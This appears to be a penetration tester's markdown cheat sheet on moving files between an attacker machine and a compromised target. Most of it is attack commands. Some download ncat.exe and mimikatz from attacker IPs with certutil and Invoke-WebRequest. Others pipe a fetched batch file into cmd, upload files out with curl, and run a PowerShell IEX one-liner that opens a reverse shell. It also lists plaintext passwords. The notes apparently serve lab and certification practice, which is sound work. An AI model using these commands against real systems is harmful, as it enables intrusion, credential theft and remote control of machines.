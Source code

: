 

# C2

##### HTTP GET
```python
python -m SimpleHTTPServer $port
```

```python
python3 -m http.server $port
```

##### HTTP PUT
```python
python3 -m uploadserver --basic-auth-upload offsec:wandton
```

##### FTP
```
sudo systemctl start pure-ftpd
```
(Setup FTP Server on Linux: [isetup-ftp.sh](file:////home/kali/Documents/linuxAdministration/))

##### WebDAV
```bash
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/ATP23/webdav/
```

##### TFTP (Useful on XP)
```bash
sudo atftpd --daemon --port 69 /tftp` )
```


# On the target

##### HTTP
```powershell
certutil.exe -urlcache -split -f "http://192.168.45.182:8000/ncat.exe"
```

```bash
curl -X POST http://$tip:8000/upload -F 'files=@$filename' -u offsec:wandton
```

```bash
curl http://server/file.bat | cmd
```
##### SSH
```bash
scp $file $user@$hip:"C:\\Users\\$user\\Downloads"
```

```bash
scp $user@$hip:'C:\\Users\\$user\\Downloads\\data.zip' .
```

##### FTP
```powershell
echo "open 192.168.45.182 21" > ftp.txt; echo "USER offsec" >> ftp.txt; echo "alexrudolf" >> ftp.txt; echo "bin" >> ftp.txt; echo "GET ncat.exe" >> ftp.txt; echo "bye" >> ftp.txt; ftp -v -n -s:ftp.txt
```
(dir on linux: `/ftphome/`)
> Error `I won't open a connection to xx.xx.xx.xx (only to xx.xx.xx.xx)` means that passive mode is required. The windows ftp client does not support passive mode

##### TFTP (Useful on XP)
```powershell
tftp -i $ip put <filename>
```


## Download to Windows

```powershell
iwr -uri http://$hip/adduser.exe -Outfile adduser.exe
```

Download File (HTTP)
```powershell
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://$hip/$filename$','C:\Users\offsec\Desktop\wget.exe')"
```

```powershell
Invoke-WebRequest -Uri 'http://192.168.45.177:80/mimikatz32.exe' -OutFile 'C:\Users\marcus\Desktop\mimi32.exe'
```

Download and Execute String  (HTTP)
```powershell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://$ip:$port/Invoke-PowershellTcp.ps1'); Invoke-PowershellTcp -Reverse -IPAddress $ip -Port $port"
```



## Windows -> Linux


